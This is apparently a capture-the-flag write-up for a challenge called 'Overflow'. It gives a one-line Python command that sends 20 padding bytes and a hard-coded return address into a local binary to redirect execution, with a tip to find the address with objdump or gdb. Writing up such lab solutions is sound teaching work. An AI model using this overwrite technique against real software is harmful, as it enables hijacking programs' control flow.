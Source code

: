 ## Overflow

### Solution:

Just a basic buffer overflow that overwrites the address with the function we
want to get to.

```
python -c 'print "A"*20 + "\x1b\x85\x04\x08"' | ./overflow
```

NOTE: The address above may be different than the actual one needed. It can easily be figured out with objdump / gdb / etc.
